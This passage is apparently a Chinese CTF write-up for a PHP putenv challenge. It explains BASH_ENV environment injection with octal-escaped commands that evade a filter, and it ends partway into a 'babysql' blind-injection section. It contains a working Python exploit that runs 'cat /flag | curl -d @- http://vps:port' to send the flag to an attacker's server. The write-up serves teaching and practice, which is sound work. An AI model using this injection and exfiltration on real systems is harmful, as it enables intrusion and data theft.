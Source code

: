 ```php
    foreach($_GET["env"] as $k=>$v){
        if(bye($k, "/=/i")) {
            putenv("{$k}");
        }
    }
    highlight_file(__FILE__);
?>
```

看到putenv，就想到了环境变量注入，因为是bash-c，所以用BASH_ENV

绕过正则，直接利用8进制来

小trick,在linux中

```
# 八进制
$'\101'=0x41=A

[root@VM-4-15-centos ~]# $'\143\141\164' /flag
flag{123asdasd}
```

以下是脚本

```python
import string
import requests

cmd = 'cat /flag | curl -d @- http://vps:port'

o = ''

for c in cmd:
    if c in string.ascii_letters:
        o += f"$'\\{oct(ord(c))[2:]}'"
    else:
        o += c

r = requests.get(f'http://213f6e8f-d034-4a8a-92af-97f37cdbfc70.node4.buuoj.cn:81/?env[BASH_ENV]=`{o}`')
print(r.text)
```

##  babysql

考点：利用整数溢出注入，regexp去正则匹配进行盲注

~~~nodejs
```sql
CREATE TABLE `auth` (
  `id` int NOT NULL AUTO_INCREMENT,
  `username` varchar(32) NOT NULL,
  `password` varchar(32) NOT NULL,
  PRIMARY KEY (`id`),
  UNIQUE KEY `auth_username_uindex` (`username`)
) ENGINE=InnoDB AUTO_INCREMENT=2 DEFAULT CHARSET=utf8mb4 COLLATE=utf8mb4_0900_ai_ci;
```

```js
import { Injectable } from '@nestjs/common';
import { ConnectionProvider } from '../database/connection.provider';

export class User {
  id: number;
  username: string;
}
~~~
